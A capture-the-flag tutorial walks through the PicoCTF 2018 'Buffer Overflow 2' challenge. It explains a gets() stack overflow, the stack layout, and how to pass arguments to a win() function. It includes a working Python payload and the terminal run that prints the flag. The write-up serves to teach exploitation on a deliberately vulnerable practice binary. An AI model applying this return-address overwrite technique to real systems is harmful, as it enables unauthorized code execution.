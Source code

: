 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 2
description: Now that you've got a handle on buffer-overflows, can you figure out how to use your control of the stack to pass arguments into a function?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 2

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

`vuln()` is nearly identical to the last ['buffer-overflow']({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-1.md %}) challenge, so flip back to it now if you need a refresher.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

## Strategy

There still is a `win` function, but this time around you can't just call it, you have to also ensure that the first argument is `0xDEADBEEF` and the second argument is `0xDEADC0DE` or it won't print the flag.

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}
```

However, overall our strategy is exactly the same: smash the stack, put the address of `win` into the return address, put whatever arguments `win` needs in the right spots, and grab the flag.

```
$ checksec vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

$ nm vuln | grep win
080485cb T win
```
{:.contains-term}

The code for the function `win()` begins at the address `0x080485cb` (no PIE, no ASLR). When you are prepared to tackle the challenge, cd to `/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa` on the shell server.

## Background Info

First off, how much space is available for our buffer?

```nasm
push   ebp
mov    ebp,esp
sub    esp,0x78
sub    esp,0xc
lea    eax,[ebp-0x6c]
push   eax
call   8048430 <gets@plt>
add    esp,0x10
sub    esp,0xc
lea    eax,[ebp-0x6c]
push   eax
call   8048460 <puts@plt>
add    esp,0x10
nop
leave
ret
```

As we can see here, the buffer begins at `ebp-0x6c`, which means that there is 100 bytes of buffer, plus 8 bytes of padding. We already know that after the padding is the preserved value of `ebp`, and following that is the return address of our function. Therefore, the stack for `vuln` looks something like this:

| lower addresses | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | --- |
| `buf[100]` | &lt; `padding[8]` &gt; | &lt;old ebp&gt; | &lt;*return address*&gt; |

The question becomes, how do we pass `0xDEADBEEF` and `0xDEADC0DE` as arguments to the function `win`?

Recall, if you were calling the function `win` from normal code, you would use assembly like this:

```nasm
push 0xDEADCODE ; arugments "pushed" last to first
push 0xDEADBEEF 

call win ; IMPLICIT "push next_instruction", which pushes the address of the next instruction onto the stack

next_instruction:
  ; ...
```

Which means that `0xDEADCODE` gets pushed first, then `0xDEADBEEF`, then the return address. Since the stack grows "up", that means in memory the return address is first (lowest address), followed by `0xDEADBEEF`, followed by `0xDEADC0DE`.

| lower addresses | &rArr; | higher addresses |
| --- | :---: | --- |
| &lt;*return address*&gt; | `0xDEADBEEF` | `0xDEADC0DE` |

Which is *exactly* what the state of the stack should be when the `win` function gets called. In this case &lt;*return address*&gt; is the address that gets called **after** `win` executes (ie: after the flag is printed, since stdout is once again set to non-buffering). Since you already have the flag, you can set it to anything you like (causing a segfault when `win` returns).

## Exploitation

Putting it all together, the write to the buffer should look like this:

1. 108 bytes of don't care
2. 4 bytes overwriting preserved `ebp` (also don't care)
3. 4 bytes *return address* for vuln (`0x080485cb` == `&win`)
4. 4 bytes *return address* for win (`0x55555555`)
5. 4 bytes arg1 (`0xDEADBEEF`)
6. 4 bytes arg2 (`0xDEADC0DE`)

Or, in python (don't forget to write your multi-byte values in little-endian form):

```python
print("U"*108 + "U"*4 + "\xcb\x85\x04\x08" + "\x55\x55\x55\x55" + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde")
```

Let's try it out at `/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa` on the shell server:

```
/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa$ python -c 'print("U"*108 + "U"*4 + "\xcb\x85\x04\x08" + "\x55\x55\x55\x55" + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde")' | ./vuln
Please enter your string:
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU˅UUUUﾭ�����
picoCTF{===REDACTED===}Segmentation fault (core dumped)
```
{:.contains-term}

Great Job! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.
